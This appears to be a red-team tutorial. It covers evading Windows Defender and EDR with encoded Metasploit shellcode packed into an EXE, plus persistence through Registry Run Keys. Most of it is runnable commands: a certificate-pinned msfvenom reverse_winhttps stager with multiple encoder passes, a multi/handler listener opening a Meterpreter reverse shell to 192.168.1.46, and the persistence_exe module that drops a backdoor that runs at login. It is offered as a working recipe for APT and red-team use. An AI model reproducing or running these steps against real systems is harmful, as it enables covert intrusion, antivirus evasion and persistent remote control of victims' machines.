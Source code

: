 ```yaml
---
title: Evade EDR with Shellcode Injection and gain persistence using Registry Run Keys
updated: 2021-02-08 16:09
---
```

Gaining a foothold in an internal network can be challenging, as AV and Defender makes this a little tougher. Modern Windows version have put in place some mitigation that prevent the shellcode to run properly. The issue is caused by the fact that the shellcode need RWX memory which are flagged when the shellcode is executed.

Shellcode injection might be very helpful for APT or Red Teamers during Pentesting, as they inject the malicious EXE and migrate the process into a trusted one by EDR. No suspicious behaviour at all!

## Encrypting the C2 communication

Transmitting data over a unencrypted Tunnel is not very recommended, it is always a great idea to replace the default SSL that Metasploit uses when generating stagers, so the communication between the stager and the C2 framework is encrypted. We can create a private RSA key and a Server Certificate for the C2 server-side.

```
openssl req -new -newkey rsa:4096 -days 365 -nodes -x509 -keyout rsaprivate.key -out servercertificate.crt
```

![generate_rsa_and_server_cert](https://miro.medium.com/max/700/1*BkkGQXUKAbLK4QyAdUg1ww.png)

Then merging this together in a .pem file and we have created a concatenated certificate.

```
cat rsaprivate.key servercertificate.crt > my.pem
```

## Generating an encoded shellcode

Generate a Metasploit stager using the certificate and making almost obfuscated using **shikata_ga_nai** for implementing a polymorphic XOR additive feedback encoder.

```
msfvenom -p windows/meterpreter/reverse_winhttps LHOST=192.168.1.46 LPORT=8888 — platform windows -a x86 HandlerSSLCert=./my.pem StagerVerifySSLCert=true -s 42 — smallest -e x86/shikata_ga_nai -i 9 -f raw| msfvenom — platform windows -a x86 -e x86/call4_dword_xor -i 6 -b “\x00\x0a\x0d” -f raw > shellcode.raw
```

![encoding_shellcode_with_9_iterations](https://miro.medium.com/max/700/1*r_Mn2ruiyf-OQ_q2kEOXuQ.png)

Once the shellcode is successfully generated, we will pack it into EXE.

## Packaging the shellcode

There is a open source tool called Shecodnject which nicely package our generated shellcode into EXE. Open the tool using python3 as root:

```
sudo python3 shecodnject.py
```

Load scc module, set the shellcode.raw file which we previously generated and run the module to read the shellcode inside the file.

```
scc
set source /set/location/to/shellcode.raw
run
```

![reading_shellcode](https://miro.medium.com/max/559/1*g6DM9bSHg5PT-6SYzHPgqQ.png)

Exit the module by typing back. Now that the shellcode is read by the tool, we will pack it into an EXE, so enter the following commands 1 by 1:

```
exe
set noconsole False
run
```

The process of packaging will take a while. Once finished the output will be saved inside /output inside shecodeject folder

The EXE is generated and ready to evade modern EDRs and Windows Defender. Let’s test if it gets detected by Windows Defender:

![bypassed_windows_defender](https://miro.medium.com/max/700/1*d02_hB-bgzFhfVKKj8Keug.png)

It is bypassed, no detection at all. Now it’s time to set a listener in Metasploit and hopefully get a shell:

```
msfconsole -q -x ‘use exploit/multi/handler; set ExitOnSession false; set PAYLOAD windows/meterpreter/reverse_winhttps; set LHOST 192.168.1.46; set LPORT 8888; set HandlerSSLCert /home/nade/Desktop/my.pem; set StagerVerifySSLCert true; set SessionCommunicationTimeout 600; run -j -z’
```

For the sake of the statistics, this is the detection rate when scanning in various AVs:

![virus_total_result](https://miro.medium.com/max/700/1*ZvnQegj1lDzTCGrFIZ8mMg.png)

## Gaining persistence by backdooring Registry Run Keys

For persistence we will inject our backdoor into a Registry Run Key. Luckily Metasploit has a module for this port-exploitation. The module require the following configuration and will drop an executable at a writable location on the compromised system. In this case, we will upload our backdoor which is the same stager as the one we used for gaining (on our local machine I have called it **fin.exe**) on the target machine -> **C:\tmp\fin.exe**

First create **tmp** directory and upload **fin.exe**:

![c2_upload_backdoor](https://miro.medium.com/max/700/1*KZbAWjiVyMg-g7QLTCLmfA.png)

```
use post/windows/manage/persistence_exe
set REXEPATH /home/nade/Desktop/fin.exe
set REXENAME fin.exe
set SESSION 2
set STARTUP USER
set LOCALEXEPATH C:\\tmp
run
```

![metasploit_persistence_module](https://miro.medium.com/max/700/1*ehPmp6GPl5lmgHOINca9vw.png)

The next time that the user will login with the system a new Meterpreter session will open (a black cmd screen will pop-up where it executed the backdoor and than automatically closes).

